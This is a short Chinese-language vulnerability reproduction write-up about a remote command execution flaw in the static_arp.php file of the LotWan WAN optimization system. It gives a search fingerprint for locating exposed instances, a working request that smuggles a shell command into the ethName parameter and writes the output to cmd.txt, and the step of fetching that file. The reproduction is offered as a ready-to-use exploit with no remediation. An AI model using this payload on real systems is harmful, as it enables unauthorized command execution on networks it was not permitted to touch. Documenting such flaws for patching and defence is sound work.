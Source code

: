 # 华夏创新 LotWan广域网优化系统 static_arp.php 远程命令执行漏洞

## 漏洞描述

华夏创新 LotWan广域网优化系统 static_arp.php文件参数 ethName存在命令拼接，导致远程命令执行漏洞

## 漏洞影响

<a-checkbox checked>华夏创新 LotWan广域网优化系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="LotWan 广域网优化系统"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1635942598942-6671fa50-5052-43f6-ab40-bf2c8403bdf8-20220314123722094.png)

存在漏洞的文件为

```php
/acc/bindipmac/static_arp.php?ethName=||id>cmd.txt||
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1635942680846-eb442f59-4229-43ad-a133-5c5587d20774.png)

再访问 `/acc/bindipmac/cmd.txt`

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1635942700371-15189d95-a643-4b0d-95bb-14f6285796d2.png)

